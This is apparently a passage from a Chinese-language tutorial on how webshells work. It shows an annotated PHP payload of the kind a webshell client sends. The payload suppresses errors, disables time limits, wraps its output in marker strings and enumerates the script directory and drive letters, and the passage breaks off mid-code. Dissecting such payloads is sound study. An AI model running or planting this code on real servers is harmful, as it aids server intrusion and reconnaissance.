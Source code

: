 ![](webshell原理.assets/webshell_2.png)

```php
// 临时关闭PHP的错误显示功能
@ini_set("display_errors", "0");
// 设置执行时间，为零说明永久执行直到程序结束，是为了防止像dir、上传文件大马时超时。
@set_time_limit(0);
// asenc方法，接收参数，返回参数
function asenc($out){
    return $out;
};
function asoutput(){
    // 从缓冲区取出数据
    $output=ob_get_contents();
    // 清空缓冲区，并将缓冲区关闭
    ob_end_clean();
    echo "b48a94c80a";
    // 输出数据
    echo @asenc($output);
    echo "606e3eed3";
}
// 打开缓冲区，来保存所有的输出
ob_start();
try{
    // $_SERVER["SCRIPT_FILENAME"]是获取当前执行脚本的绝对路径，dirname() 函数返回路径中的目录名称部分，也就是说$D是当前执行脚本所在的目录
    $D=dirname($_SERVER["SCRIPT_FILENAME"]);
    if($D=="")
        // $_SERVER["PATH_TRANSLATED"]获取当前脚本所在文件系统（不是文档根目录）的基本路径。这是在服务器进行虚拟到真实路径的映像后的结果
        $D=dirname($_SERVER["PATH_TRANSLATED"]);
    // 拼接字符串和一个制表位
    $R="{$D}	";
    // 判断是否为Linux的文件目录
    if(substr($D,0,1)!="/"){
        // 遍历盘符
        foreach(range("C","Z")as $L)
            // 如果存在盘符
            if(is_dir("{$L}:"))
                // 拼接字符串
                $R.="{$L}:";
    }else{
        // 否则拼接/
```